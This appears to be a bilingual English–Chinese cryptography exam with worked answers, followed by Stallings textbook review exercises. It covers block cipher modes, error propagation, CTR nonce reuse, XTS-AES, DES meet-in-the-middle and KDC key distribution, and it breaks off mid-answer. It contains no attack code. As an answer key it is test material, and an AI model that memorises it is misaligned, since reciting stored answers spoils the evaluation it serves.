The IV is 9. The ciphertext of \((3,3,\text{C})\) is \((\text{F},4,3)\) in CBC, \((\text{D},4,5)\) in CFB with \(s=b=4\), and \((\text{D},2,9)\) in OFB. In transit the second block of each ciphertext has its second most significant bit flipped (XOR with 4).IV 为 9。\((3,3,\text{C})\) 的密文在 CBC 下为 \((\text{F},4,3)\)，在 CFB（\(s=b=4\)）下为 \((\text{D},4,5)\)，在 OFB 下为 \((\text{D},2,9)\)。传输过程中，每个密文的第二个分组的次高位被翻转（与 4 异或）。
- (a) Decrypt the undamaged CBC ciphertext and show the working. (4 marks)（a）解密未受损的 CBC 密文，并写出计算过程。（4 分）
- (b) Decrypt the three damaged ciphertexts. (6 marks)（b）解密三个受损的密文。（6 分）
- (c) For each mode state which plaintext blocks are damaged and how. (5 marks)（c）对每种模式，说明哪些明文分组受损以及如何受损。（5 分）
Answer
(a) From the table, \(D(\text{F})=\text{A}\), \(D(4)=\text{C}\), \(D(3)=8\). \(P_1=D(\text{F})\oplus9=\text{A}\oplus9=3\); \(P_2=D(4)\oplus\text{F}=\text{C}\oplus\text{F}=3\); \(P_3=D(3)\oplus4=8\oplus4=\text{C}\). The plaintext is \((3,3,\text{C})\).（a）由表可得 \(D(\text{F})=\text{A}\)，\(D(4)=\text{C}\)，\(D(3)=8\)。\(P_1=D(\text{F})\oplus9=\text{A}\oplus9=3\)；\(P_2=D(4)\oplus\text{F}=\text{C}\oplus\text{F}=3\)；\(P_3=D(3)\oplus4=8\oplus4=\text{C}\)。明文为 \((3,3,\text{C})\)。
(b) CBC: \(C_2'=4\oplus4=0\), \(D(0)=5\), so \(P_2'=5\oplus\text{F}=\text{A}\) and \(P_3'=D(3)\oplus0=8\): result \((3,\text{A},8)\). CFB: \(C_2'=0\); \(O_2=E(\text{D})=7\), so \(P_2'=0\oplus7=7\); \(O_3'=E(0)=\text{C}\), so \(P_3'=5\oplus\text{C}=9\): result \((3,7,9)\). OFB: \(C_2'=2\oplus4=6\); \(O_2=E(\text{E})=1\), \(P_2'=6\oplus1=7\); \(O_3=E(1)=5\), \(P_3'=9\oplus5=\text{C}\): result \((3,7,\text{C})\).（b）CBC：\(C_2'=4\oplus4=0\)，\(D(0)=5\)，故 \(P_2'=5\oplus\text{F}=\text{A}\) 与 \(P_3'=D(3)\oplus0=8\)，结果为 \((3,\text{A},8)\)。CFB：\(C_2'=0\)；\(O_2=E(\text{D})=7\)，故 \(P_2'=0\oplus7=7\)；\(O_3'=E(0)=\text{C}\)，故 \(P_3'=5\oplus\text{C}=9\)，结果为 \((3,7,9)\)。OFB：\(C_2'=2\oplus4=6\)；\(O_2=E(\text{E})=1\)，\(P_2'=6\oplus1=7\)；\(O_3=E(1)=5\)，\(P_3'=9\oplus5=\text{C}\)，结果为 \((3,7,\text{C})\)。
(c) CBC: \(P_2\) is garbled (A instead of 3) and \(P_3\) differs by exactly the flipped bit (8 instead of C); \(P_1\) is intact, and the mode recovers after two blocks. CFB: \(P_2\) has the same bit flipped (7 instead of 3) and \(P_3\) is garbled (9 instead of C); here \(b/s=1\), so \(1+b/s=2\) units are damaged. OFB: only \(P_2\) is damaged, with the same bit flipped (7 instead of 3); there is no propagation.（c）CBC：\(P_2\) 被破坏（应为 3，实为 A），\(P_3\) 与正确值恰好相差被翻转的那一比特（应为 C，实为 8）；\(P_1\) 完好，模式在两个分组之后恢复。CFB：\(P_2\) 中同一比特被翻转（应为 3，实为 7），\(P_3\) 被破坏（应为 C，实为 9）；此处为 \(b/s=1\)，因此共有 \(1+b/s=2\) 个单元受损。OFB：仅 \(P_2\) 受损，且同一比特被翻转（应为 3，实为 7）；不存在错误传播。
思路：CBC 先乱本块、再翻转下一块的同一位；CFB 先翻转本块的同一位、再乱后 \(b/s\) 块；OFB/CTR 只翻转同一位。
Q3. (Counter mode and nonce misuse; 13 marks)Q3.（计数器模式与 nonce 误用；13 分）
- (a) Write the CTR equations and explain why CTR needs neither padding nor the decryption function. (4 marks)(a) 写出 CTR 方程，并解释为什么 CTR 既不需要填充，也不需要解密函数。（4 分）
- (b) A server encrypts two files with AES-CTR using the same key and the same initial counter. Show how an attacker who knows the header of file 1 recovers the header of file 2. What can the attacker do if neither header is known? (5 marks)(b) 某服务器使用同一密钥和同一初始计数器，以 AES-CTR 加密两个文件。试说明：已知文件 1 首部的攻击者如何恢复文件 2 的首部；若两个首部都未知，攻击者还能做什么？（5 分）
- (c) State the IV or counter requirement of CBC, OFB and CTR, and what a constant IV reveals in CBC. (4 marks)(c) 写出 CBC、OFB 和 CTR 对初始向量（IV）或计数器的要求，以及在 CBC 中使用固定 IV 会泄露什么。（4 分）
Answer
(a) \(C_j=P_j\oplus E(K,T_j)\) and \(P_j=C_j\oplus E(K,T_j)\) with distinct counters \(T_j\). A last partial block of \(u\) bits is XORed with \(\mathrm{MSB}_u[E(K,T_N)]\), so the ciphertext has the plaintext's length and no padding is needed. Decryption XORs the same keystream, so only \(E\) is used.(a) \(C_j=P_j\oplus E(K,T_j)\) 与 \(P_j=C_j\oplus E(K,T_j)\)，计数器 \(T_j\) 互不相同。最后一个不完整分组的 \(u\) 个比特与 \(\mathrm{MSB}_u[E(K,T_N)]\) 异或，因此密文与明文等长，无需填充。解密时异或同一密钥流，因此只用到 \(E\)。
(b) Equal counters give equal keystream blocks. For the known header, \(E(K,T_j)=C_1\oplus P_1\), hence the header of file 2 is \(P_2=C_2\oplus C_1\oplus P_1\). If neither is known, \(C_1\oplus C_2=P_1\oplus P_2\) still leaks the XOR of the plaintexts, and redundancy in the data (text, file formats) allows recovery of both.(b) 计数器相同时，密钥流分组也相同。对于已知的首部，有 \(E(K,T_j)=C_1\oplus P_1\)，因此文件 2 的首部即为 \(P_2=C_2\oplus C_1\oplus P_1\)。若两个首部都未知，\(C_1\oplus C_2=P_1\oplus P_2\) 仍会泄露两段明文的异或，而数据中的冗余（文本、文件格式）足以恢复两者。
(c) CBC: the IV must be unpredictable and known to the receiver (random, or an encrypted nonce). OFB: the IV must be a nonce, unique for each message under the key. CTR: every counter value must be unique across all messages under the key. A constant IV makes CBC deterministic: two messages with the same first \(t\) blocks have the same first \(t\) ciphertext blocks, so common prefixes are revealed (and a predictable IV allows testing guesses).(c) CBC：IV 必须不可预测，且接收方已知（随机生成，或为加密后的 nonce）。OFB：IV 必须是一次性随机数（nonce），即在同一密钥下每条消息的 IV 各不相同。CTR：同一密钥下，所有消息的每个计数器值都必须唯一。固定的 IV 使 CBC 变为确定性的：若两条消息的前 \(t\) 个明文分组相同，则其前 \(t\) 个密文分组也相同，因此公共前缀会被泄露（若 IV 可预测，还可以验证猜测）。
Q4. (Storage encryption; 13 marks)Q4.（存储加密；13 分）
- (a) List four requirements of sector encryption and say why CTR and CBC (IV = sector number) fail. (4 marks)(a) 列出扇区加密的四项要求，并说明为什么 CTR 与以扇区号为 IV 的 CBC 都不适用。（4 分）
- (b) Give the XTS-AES block equations, state the role of \(K_1\), \(K_2\), \(i\), \(j\) and \(\alpha\), and show that decryption recovers \(P\). (5 marks)(b) 给出 XTS-AES 的分组方程，说明 \(K_1\)、\(K_2\)、\(i\)、\(j\) 和 \(\alpha\) 的作用，并证明解密可以恢复 \(P\)。（5 分）
- (c) A data unit has 100 bytes. Describe how XTS-AES encrypts it. (4 marks)(c) 一个数据单元有 100 字节。描述 XTS-AES 如何加密它。（4 分）
Answer
(a) The ciphertext is freely available to the attacker; it is as long as the plaintext; blocks are accessed independently in any order; the same plaintext encrypts differently at different locations but identically at the same location; no metadata except the location is stored. CTR fails because flipping a ciphertext bit flips the plaintext bit. CBC fails because a sector can be moved to another location and still decrypt (except its first block), and plaintext bits can be flipped through the previous ciphertext block.(a) 密文可被攻击者自由获取；密文与明文等长；分组可以以任意顺序独立访问；相同明文在不同位置加密结果不同，在同一位置加密结果相同；除位置外不存储任何元数据。CTR 失效，因为翻转一个密文比特会翻转对应的明文比特。CBC 失效，因为扇区可以被移动到其他位置后仍能解密（首分组除外），而且可以通过修改前一个密文分组来翻转明文比特。
(b) \(T=E(K_2,i)\otimes\alpha^j\), \(C=E(K_1,P\oplus T)\oplus T\) and \(P=D(K_1,C\oplus T)\oplus T\). \(K_2\) encrypts the sector number \(i\) to give the tweak base, \(\alpha^j\) makes the tweak differ per block (like a counter) and \(i\) per sector (like a nonce), and \(K_1\) encrypts the data. Decryption: \(D(K_1,[E(K_1,P\oplus T)\oplus T]\oplus T)\oplus T=D(K_1,E(K_1,P\oplus T))\oplus T=(P\oplus T)\oplus T=P\).(b) \(T=E(K_2,i)\otimes\alpha^j\)、\(C=E(K_1,P\oplus T)\oplus T\) 和 \(P=D(K_1,C\oplus T)\oplus T\)。\(K_2\) 对扇区号 \(i\) 进行加密，得到 tweak 基值；\(\alpha^j\) 使 tweak 在各分组之间各不相同（类似计数器），\(i\) 使 tweak 在各扇区之间各不相同（类似 nonce）；\(K_1\) 对数据进行加密。解密：\(D(K_1,[E(K_1,P\oplus T)\oplus T]\oplus T)\oplus T=D(K_1,E(K_1,P\oplus T))\oplus T=(P\oplus T)\oplus T=P\)。
(c) \(100=6\cdot16+4\): six full blocks \(P_0,\dots,P_5\) and a partial block \(P_6\) of \(s=32\) bits (\(m=6\)). \(P_0,\dots,P_4\) are encrypted normally. Ciphertext stealing handles \(P_5\) and \(P_6\): \(XX=\text{Enc}(P_5,i,5)\), \(C_6=\mathrm{MSB}_{32}(XX)\), \(CP=\mathrm{LSB}_{96}(XX)\), \(YY=P_6\Vert CP\), \(C_5=\text{Enc}(YY,i,6)\). The ciphertext is again 100 bytes.\(100=6\cdot16+4\)：六个完整分组 \(P_0,\dots,P_5\) 和一个 \(s=32\) 比特的不完整分组 \(P_6\)（\(m=6\)）。\(P_0,\dots,P_4\) 按常规方式加密。密文窃取用于处理 \(P_5\) 和 \(P_6\)：\(XX=\text{Enc}(P_5,i,5)\)、\(C_6=\mathrm{MSB}_{32}(XX)\)、\(CP=\mathrm{LSB}_{96}(XX)\)、\(YY=P_6\Vert CP\)、\(C_5=\text{Enc}(YY,i,6)\)。密文仍为 100 字节。
Q5. (Key distribution; 12 marks)Q5.（密钥分发；12 分）
- (a) List the four ways of distributing a key between A and B. Which is preferred for end-to-end encryption, and why is the third unsuitable? (3 marks)(a) 列出在 A 与 B 之间分发密钥的四种方式。端到端加密首选哪一种？第三种为何不适用？（3 分）
- (b) Explain the KDC-based scheme: session key, permanent key, SSM and the steps of connection set-up. (5 marks)(b) 解释基于 KDC 的方案：会话密钥、永久密钥、SSM 以及连接建立的步骤。（5 分）
- (c) For 200 hosts, compare the number of keys with pairwise keys and with a KDC, and name one drawback of the KDC. (4 marks)(c) 对于 200 台主机，比较成对密钥与 KDC 两种方案所需的密钥数量，并指出 KDC 的一个缺点。（4 分）
Answer
(a) A picks the key and delivers it physically; a third party picks it and delivers it physically; A sends the new key under a previously used key; a third party C delivers the key over encrypted links to A and B. The fourth is preferred for end-to-end encryption. The third is unsuitable because one captured key reveals all later keys.(a) A 自行选择密钥并以物理方式交付；第三方选择密钥并以物理方式交付；A 用先前使用过的密钥加密并发送新密钥；第三方 C 通过加密链路把密钥交付给 A 和 B。第四种最适合端到端加密。第三种不适用，因为一旦某个密钥被截获，之后的所有密钥都会随之暴露。
(b) A session key encrypts user data for one connection and is destroyed afterwards. A permanent key is shared by an entity and the KDC and only distributes session keys. The SSM at each host performs end-to-end encryption and obtains session keys. Steps: (1) the host sends a connection-request packet and its SSM holds it; (2) the SSM asks the KDC for permission, encrypted under its key shared with the KDC; (3) if the KDC approves, it generates a session key and sends it to both SSMs, each copy under that SSM's permanent key; (4) the requesting SSM releases the packet, and all user data are encrypted with the session key.(b) 会话密钥用于加密某一次连接中的用户数据，连接结束后即销毁。永久密钥由实体与 KDC 共享，其唯一用途是分发会话密钥。每台主机上的 SSM 负责端到端加密，并负责获取会话密钥。步骤：(1) 主机发出连接请求分组，由其 SSM 暂存该分组；(2) SSM 向 KDC 申请许可，申请以其与 KDC 共享的密钥加密；(3) 若 KDC 批准，则生成会话密钥，并分别用各 SSM 的永久密钥加密后发送给两端的 SSM；(4) 发起请求的 SSM 放行该分组，之后所有用户数据均用会话密钥加密。
(c) Pairwise: \(200\cdot199/2=19{,}900\) keys. KDC: 200 permanent keys, plus session keys on demand. Drawback: the KDC is a single point of trust and failure; its compromise exposes every connection.(c) 成对密钥：\(200\cdot199/2=19{,}900\) 个密钥。KDC：200 个永久密钥，外加按需生成的会话密钥。缺点：KDC 同时是单点信任与单点故障；一旦被攻破，所有连接都会暴露。
Textbook exercises课后习题
Textbook exercises with answers: 17 questions教材习题及答案，共 17 题，点击展开
E1. (Review Question 7.1, Stallings) What is a tweakable block cipher?E1. （复习题 7.1，Stallings）什么是可调分组密码？
Answer
A tweakable block cipher takes, besides the key \(K\) and the plaintext block \(P\), a third input called the tweak \(T\): \(C = E(K, T, P)\). The key is secret; the tweak is public and need not be secret. For every fixed tweak the cipher is an ordinary block cipher (a permutation of the blocks), and a different tweak selects a different permutation under the same key. Tweaks make identical plaintext blocks at different positions encrypt differently without a fresh key or an IV per block, e.g. XTS-AES uses the sector number and the block index within the sector as the tweak. It shows that position-dependent encryption of stored data can be done with one key and no expansion of the data.可调分组密码除了密钥 \(K\) 和明文分组 \(P\) 之外，还接受第三个输入，称为调整值 \(T\)：\(C = E(K, T, P)\)。密钥是保密的；调整值是公开的，不需要保密。对于每个固定的调整值，这种密码都是一个普通的分组密码（即分组的一个置换），而同一把密钥下，不同的调整值会选出不同的置换。调整值使得位于不同位置的相同明文分组加密后得到不同的结果，而不需要为每个分组更换密钥或使用逐分组的 IV。例如，XTS-AES 以扇区号和扇区内的分组索引作为调整值。这说明，对存储数据做与位置相关的加密，只用一把密钥即可完成，而且不会使数据变长。
思路：tweak 是公开的第三个输入，换 tweak 就换了一个置换。
E2. (Review Question 7.2, Stallings) Why does double encryption of a plaintext with DES, with two different keys of 56 bits, not provide 112 bits of security?E2. （复习题 7.2，Stallings）为什么用两把不同的 56 位密钥对明文做双重 DES 加密，却不能提供 112 位的安全性？
Answer
Double DES computes \(C = E(K_2, E(K_1, P))\). Brute force over both keys would cost \(2^{112}\), but the meet-in-the-middle attack is much cheaper. Given one known pair \((P, C)\) the attacker proceeds as follows.双重 DES 计算 \(C = E(K_2, E(K_1, P))\)。对两把密钥进行穷举搜索的代价为 \(2^{112}\)，但中间相遇攻击要便宜得多。给定一个已知对 \((P, C)\)，攻击者按以下步骤进行：
- Encrypt \(P\) under every \(K_1\) and store the \(2^{56}\) values \(X = E(K_1, P)\) in a table indexed by \(X\).用每一个 \(K_1\) 对 \(P\) 加密，把所得的 \(2^{56}\) 个值 \(X = E(K_1, P)\) 存入以 \(X\) 为索引的表中。
- Decrypt \(C\) under every \(K_2\) and look up \(D(K_2, C)\) in the table. A match means \(E(K_1, P) = D(K_2, C)\), so \((K_1, K_2)\) is a candidate.用每一个 \(K_2\) 对 \(C\) 解密，并在表中查找 \(D(K_2, C)\)。若匹配，则说明 \(E(K_1, P) = D(K_2, C)\)，因此 \((K_1, K_2)\) 是一个候选。
- About \(2^{112}/2^{64} = 2^{48}\) candidates are false alarms; testing them against a second known pair \((P', C')\) removes almost all of them.大约 \(2^{112}/2^{64} = 2^{48}\) 个候选是误报；用第二个已知对 \((P', C')\) 检验它们，几乎可以全部去掉。
The work is about \(2^{56}\) encryptions plus \(2^{56}\) decryptions (about \(2^{57}\) operations) and \(2^{56}\) table entries, so the effective strength is about 57 bits, hardly more than single DES. It shows that two stages do not square the key space against a known-plaintext attacker.工作量约为 \(2^{56}\) 次加密加上 \(2^{56}\) 次解密（约 \(2^{57}\) 次运算），以及 \(2^{56}\) 项表，因此有效强度约为 57 位，几乎不比单重 DES 高。这说明，面对已知明文攻击者，两个阶段并不能把密钥空间平方化。
思路：把两段加密从中间对上，复杂度是 \(2^{57}\) 而不是 \(2^{112}\)。
E3. (Review Question 7.3, Stallings) Why is double encryption in DES with two different keys not likely to be equivalent to single encryption with a different key?E3. （复习题 7.3，Stallings）为什么用两把不同密钥做 DES 双重加密，不太可能等同于用另一把密钥做单次加密？
Answer
Each DES key defines one permutation of the \(2^{64}\) possible blocks, and there are only \(2^{56}\) such permutations out of \(2^{64}!\) possible ones. Double encryption with keys \(K_1, K_2\) would equal a single encryption with some \(K_3\) for all keys only if the set of DES permutations were closed under composition, i.e. if DES were a group. If it were, any number of encryption stages would collapse into one 56-bit key and multiple encryption would be useless. It has been shown that DES is not a group: the permutations obtained by composing DES permutations form a far larger set than the \(2^{56}\) single-key permutations. For a given pair \((K_1, K_2)\) the composition is therefore, with overwhelming likelihood, not any single-DES permutation. Double DES thus really enlarges the key space, although the meet-in-the-middle attack (E2) removes most of the benefit.每把 DES 密钥确定 \(2^{64}\) 个可能分组上的一种置换，而在所有可能的置换中，这样的置换只有 \(2^{56}\) 种，共 \(2^{64}!\) 种可能。用密钥 \(K_1, K_2\) 做双重加密，要想对所有密钥都等同于用某个 \(K_3\) 做单次加密，只有在 DES 置换的集合对复合运算封闭（也就是说 DES 构成一个群）时才可能。如果真是这样，任意多个加密阶段都会合并成一把 56 位密钥，多重加密就毫无意义。事实上已有结果证明，DES 不构成群：DES 置换复合后得到的置换集合，远大于 \(2^{56}\) 种单密钥置换的集合。因此，对于某个给定的密钥对 \((K_1, K_2)\)，复合得到的置换几乎肯定不是任何一种单重 DES 置换。所以双重 DES 确实扩大了密钥空间，尽管中间相遇攻击（E2）消去了其中的大部分好处。
思路：DES 不是群，复合后一般不再是某个单密钥 DES 置换。
E4. (Review Question 7.4, Stallings) List and briefly define the block cipher modes of operation.E4. （复习题 7.4，Stallings）列出并简要定义分组密码的工作模式。
Answer
The five standard modes use a block cipher \(E\) with key \(K\); blocks are \(b\) bits.五种标准模式都使用分组密码 \(E\)，密钥为 \(K\)；分组长为 \(b\) 位。
- ECB (electronic codebook): each plaintext block is encrypted independently, \(C_j = E(K, P_j)\).ECB（电子密码本）： 每个明文分组都被独立加密，\(C_j = E(K, P_j)\)。
- CBC (cipher block chaining): each plaintext block is XORed with the previous ciphertext block before encryption, \(C_j = E(K, P_j \oplus C_{j-1})\), with \(C_0 = \mathrm{IV}\).CBC（密码分组链接）： 每个明文分组在加密之前先与前一个密文分组异或，\(C_j = E(K, P_j \oplus C_{j-1})\)，其中 \(C_0 = \mathrm{IV}\)。
- CFB (cipher feedback): the previous ciphertext (an \(s\)-bit segment shifted into a register) is encrypted and the result is XORed with the plaintext, which makes the block cipher a self-synchronising stream cipher.CFB（密文反馈）： 前一段密文（一个 \(s\) 位的分段，移入寄存器）被加密，结果与明文异或，这使分组密码成为一种自同步流密码。
- OFB (output feedback): like CFB, but the register is fed with the cipher output instead of the ciphertext, so the keystream does not depend on the plaintext and is computed in advance.OFB（输出反馈）： 与 CFB 类似，但寄存器输入的是密码输出而不是密文，因此密钥流与明文无关，并且可以提前算好。
- CTR (counter): the encryptions of successive counter values form the keystream, \(C_j = P_j \oplus E(K, T_j)\).CTR（计数器）： 对连续的计数器值加密，得到密钥流，\(C_j = P_j \oplus E(K, T_j)\)。
XTS-AES, a sixth mode for sector-based storage, is a tweakable-cipher mode. It shows that the modes differ in error propagation, parallelism and need for an IV.XTS-AES 是用于按扇区存储的第六种模式，它是一种可调密码模式。这说明各模式在错误传播、并行性以及对 IV 的需求方面各不相同。
思路：五种模式的区别在于怎样把前一块的信息接到下一块。
E5. (Review Question 7.5, Stallings) Why is the ECB mode not secure for encrypting large amounts of data or structured data?E5. （复习题 7.5，Stallings）为什么 ECB 模式不适合加密大量数据或结构化数据？
Answer
In ECB the same plaintext block always yields the same ciphertext block under one key, and blocks are encrypted independently. Therefore:在 ECB 中，同一把密钥下相同的明文分组总是得到相同的密文分组，而且各分组独立加密。因此：
- Repeated plaintext blocks appear as repeated ciphertext blocks, so the structure of the data (repeated headers, runs of zeros, the outline of an image) is visible in the ciphertext.重复的明文分组会表现为重复的密文分组，因此数据的结构（重复的文件头、连续的零、图像的轮廓）在密文中清晰可见。
- With a large amount of data, an attacker can build a codebook of known plaintext/ciphertext block pairs and use frequency analysis.数据量很大时，攻击者可以建立一本已知明文/密文分组对的密码本，并使用频率分析。
- Blocks can be deleted, repeated or reordered without detection, because no block depends on another.由于各分组之间互不依赖，分组可以被删除、重复或重新排序，而且不会被发现。
ECB is therefore acceptable only for a very short message of a single block, such as one key.因此，ECB 只适用于只有一个分组的极短消息，例如一把密钥。
思路：相同明文块得到相同密文块，泄露结构且可被剪贴重排。
E6. (Review Question 20.6, Stallings & Brown) Why do some block cipher modes of operation only use encryption while others use both encryption and decryption?E6. （复习题 20.6，Stallings & Brown）为什么有些分组密码工作模式只使用加密，而另一些既使用加密又使用解密？
Answer
It depends on whether the plaintext is passed through the block cipher. In ECB and CBC the plaintext block (XORed with the previous ciphertext in CBC) is the input of \(E\), so the receiver must run \(D\) to undo it. In CFB, OFB and CTR the cipher encrypts a register or counter value that is independent of the plaintext, and the result is XORed with the data as a keystream. The receiver XORs the same keystream, so it also uses only the encryption function \(E\), never \(D\). These modes therefore need only the encryption circuit or code, which saves hardware or code size.这取决于明文是否直接经过分组密码。在 ECB 和 CBC 中，明文分组（在 CBC 中先与前一个密文异或）是 \(E\) 的输入，因此接收方必须运行 \(D\) 才能还原。在 CFB、OFB 和 CTR 中，密码加密的是一个与明文无关的寄存器或计数器值，其结果作为密钥流与数据异或。接收方异或相同的密钥流，因此它也只使用加密函数 \(E\)，从来不用 \(D\)。所以这些模式只需要加密电路或代码，从而节省硬件或代码空间。
思路：明文是否进入分组密码的输入决定要不要解密函数。
E7. (Review Question 20.7, Stallings & Brown) What is triple encryption?E7.（复习题 20.7，Stallings & Brown）什么是三重加密？
Answer
Triple encryption applies a block cipher three times in succession, with two or three different keys, to lengthen the effective key. Triple DES (3DES) computes \(C = E(K_3, D(K_2, E(K_1, P)))\) (encrypt-decrypt-encrypt, EDE), and decryption is \(P = D(K_1, E(K_2, D(K_3, C)))\). With three independent keys the key has 168 bits; with two keys (\(K_3 = K_1\)) it has 112 bits. Because of the meet-in-the-middle attack, the effective strength is about 112 bits with three keys and about 80 bits with two keys against known plaintext. It shows that three stages are needed to get a real gain over single DES, since two stages give only about 57 bits.三重加密是把一个分组密码连续使用三次，使用两个或三个不同的密钥，以加长有效密钥。三重 DES（3DES）计算 \(C = E(K_3, D(K_2, E(K_1, P)))\)（加密-解密-加密，EDE），解密为 \(P = D(K_1, E(K_2, D(K_3, C)))\)。使用三个独立密钥时，密钥长度为 168 位；使用两个密钥（\(K_3 = K_1\)）时，密钥长度为 112 位。由于中间相遇攻击，在已知明文的情况下，三密钥的有效强度约为 112 位，两密钥的有效强度约为 80 位。这说明必须用三个阶段才能比单 DES 获得真正的提升，因为两个阶段只能提供约 57 位。
思路：加密-解密-加密三段，双密钥 112 位、三密钥 168 位标称。
E8. (Review Question 20.8, Stallings & Brown) Why is the middle portion of 3DES a decryption rather than an encryption?E8.（复习题 20.8，Stallings & Brown）为什么 3DES 的中间部分是解密而不是加密？
Answer
The decryption in the middle gives no extra cryptographic strength: three encryptions would be as secure as EDE. It is used for backward compatibility with single DES. If \(K_1 = K_2 = K_3\), then \(E(K, D(K, E(K, P))) = E(K, P)\), because the inner \(E\) and the middle \(D\) cancel. A 3DES device with all keys equal therefore behaves like a single-DES device and can still communicate with old equipment, while with different keys it provides the stronger triple encryption.中间的解密不会带来额外的密码学强度：三次加密与 EDE 一样安全。它的作用是与单 DES 向后兼容。若 \(K_1 = K_2 = K_3\)，则 \(E(K, D(K, E(K, P))) = E(K, P)\)，因为内层的 \(E\) 与中间的 \(D\) 相互抵消。因此，所有密钥都相同的 3DES 设备，其行为与单 DES 设备一样，仍然可以与旧设备通信；而使用不同密钥时，它提供的是更强的三重加密。
思路：中间解密只为 K1=K2=K3 时退化为单 DES，方便兼容。
E9. (Review Question 20.9, Stallings & Brown) What is the difference between link and end-to-end encryption?E9.（复习题 20.9，Stallings & Brown）链路加密与端到端加密有什么区别？
Answer
In link encryption each communication link between two adjacent nodes is encrypted separately, with its own key. Everything, including headers, is encrypted on the link and decrypted at each intermediate node, then re-encrypted for the next link. The data are therefore in plaintext inside each node, so every node must be trusted, but all traffic (even header information) is hidden from a wire-tapper.在链路加密中，两个相邻节点之间的每一条通信链路都单独加密，各用各的密钥。包括首部在内的所有内容都在链路上加密，并在每个中间节点解密，然后为下一条链路重新加密。因此，数据在每个节点内部都是明文，所以每个节点都必须是可信的；但所有流量（甚至包括首部信息）都能对窃听者隐藏。
In end-to-end encryption the data are encrypted at the source and decrypted only at the destination, using a key shared by the two end systems. Intermediate nodes only see ciphertext, so they need not be trusted, but the headers must stay in the clear for routing, so traffic patterns are visible. It shows that the two give different protection, and they are often combined.在端到端加密中，数据在源端加密，只在目的端解密，使用两个端系统共享的密钥。中间节点只能看到密文，因此不需要可信；但首部必须以明文形式保留，以便路由，所以流量模式是可见的。这说明两者提供的保护不同，它们常常结合使用。
思路：逐链路加密节点内是明文；端到端只有两端能解，但头部要明文。
E10. (Review Question 20.10, Stallings & Brown) List ways in which secret keys can be distributed to two communicating parties.E10.（复习题 20.10，Stallings & Brown）列出把秘密密钥分发给两个通信方的方法。
Answer
For parties A and B there are four ways:对于参与方 A 和 B，有四种方法：
- A selects a key and physically delivers it to B.A 选择一个密钥，并亲自把它交给 B。
- A third party selects the key and physically delivers it to A and B.由第三方选择密钥，并亲自把它交给 A 和 B。
- If A and B already share a key, one of them transmits the new key encrypted with the old key.如果 A 和 B 已经共享一个密钥，其中一方用旧密钥加密后发送新密钥。
- If A and B each have an encrypted connection to a third party C, C delivers a key on those encrypted links to A and B (a key distribution center).如果 A 和 B 各自与第三方 C 之间都有加密连接，C 通过这些加密链路把密钥发给 A 和 B（即密钥分发中心）。
The first two do not scale with many users or frequent re-keying; the last two are the basis of automatic key distribution.前两种方法无法扩展到大量用户，也不适合频繁更换密钥；后两种方法是自动密钥分发的基础。
思路：人工送达、第三方送达、旧密钥加密新密钥、经 KDC 转发。
E11. (Review Question 20.11, Stallings & Brown) What is the difference between a session key and a key derivation key?E11.（复习题 20.11，Stallings & Brown）会话密钥与密钥派生密钥有什么区别？
Answer
A session key is a temporary key used to encrypt the data of one logical connection or session; after the session it is discarded. A key derivation key (master key) is a long-lived key shared between a user and the key distribution center (or other party). It is not used to encrypt the data itself; it is used to protect, or to derive, the session keys that are distributed. Keeping the master key away from the data limits how much ciphertext an attacker can collect under it, and a compromised session key harms only one session.会话密钥是一个临时密钥，用来加密一次逻辑连接或会话的数据；会话结束后即被丢弃。密钥派生密钥（主密钥）是用户与密钥分发中心（或其他参与方）之间共享的长期密钥。它不直接用来加密数据，而是用来保护所分发的会话密钥，或由它派生会话密钥。让主密钥远离数据，可以限制攻击者在该密钥下能收集的密文量；而且一个被泄露的会话密钥只会危害一次会话。
思路：会话密钥短期加密数据；派生（主）密钥长期，只用来保护或产生会话密钥。
E12. (Review Question 20.12, Stallings & Brown) What is a key distribution center?E12.（复习题 20.12，Stallings & Brown）什么是密钥分发中心？
Answer
A key distribution center (KDC) is a trusted third party that shares a unique master key with every user (or system) and generates session keys on request. When A wants to communicate with B, it asks the KDC; the KDC creates a session key and delivers it to A encrypted under A's master key and to B encrypted under B's master key (directly or through A). Then A and B can talk using the session key. A system of \(n\) users needs only \(n\) master keys, instead of one key per pair. The KDC is a single point of trust and failure, since whoever compromises it learns all keys.密钥分发中心（KDC）是一个可信第三方，它与每个用户（或系统）共享一个唯一的主密钥，并按请求生成会话密钥。当 A 想与 B 通信时，它向 KDC 提出请求；KDC 生成一个会话密钥，用 A 的主密钥加密后发给 A，用 B 的主密钥加密后发给 B（可以直接发送，也可以经过 A 转发）。然后 A 和 B 就可以用这个会话密钥通信。\(n\) 个用户的系统只需要 \(n\) 个主密钥，而不需要为每对用户各设一个密钥。KDC 是单点的信任与故障源，因为谁攻破了它，谁就能获得所有密钥。
思路：KDC 与每个用户各有主密钥，按需生成并分发会话密钥。
E13. (Problem 7.4, Stallings) With ECB mode, if there is an error in a block of the transmitted ciphertext, only the corresponding plaintext block is affected. In CBC mode, the error propagates. For example, an error in the transmitted \(C_1\) obviously corrupts \(P_1\) and \(P_2\). (a) Are any blocks beyond \(P_2\) affected? (b) Suppose there is a bit error in the source version of \(P_1\). Through how many ciphertext blocks is this error propagated? What is the effect at the receiver?E13.（习题 7.4，Stallings）在 ECB 模式下，传输的密文中某一个分组出错，只影响对应的明文分组。在 CBC 模式下，错误会传播。例如，传输的 \(C_1\) 中的错误显然会破坏 \(P_1\) 和 \(P_2\)。（a）是否有分组受到 \(P_2\) 之后的影响？（b）假设源端的 \(P_1\) 中有一个比特错误。这个错误会传播到多少个密文分组？在接收端会有什么影响？
Answer
CBC decryption is \(P_j = D(K, C_j) \oplus C_{j-1}\), with \(C_0 = \mathrm{IV}\).CBC 解密为 \(P_j = D(K, C_j) \oplus C_{j-1}\)，其中 \(C_0 = \mathrm{IV}\)。
